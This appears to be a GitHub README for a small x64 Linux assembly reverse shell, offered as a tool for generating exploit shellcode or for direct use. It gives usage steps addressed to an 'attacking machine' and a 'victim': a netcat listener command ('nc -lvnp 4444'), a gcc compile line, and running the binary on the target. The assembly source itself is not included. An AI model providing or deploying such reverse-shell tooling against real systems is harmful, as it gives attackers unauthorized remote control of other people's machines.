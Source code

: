 # x64_Linux_ASM_Reverse_Shell
A simple 64bit linux assembly reverse shell, can be use to generate shellcodes for exploits

It's really lightweight and can be used either for shellcodes or directly as reverse shell.

**Usage**
Don't forget to change ip in code - it's in reverse byte order

*Compile:*
| gcc reverse_shell.s -o reverse_shell
*On attacking machine:*
| nc -lvnp 4444
*On victim:*
| ./reverse_shell


Made by Pim
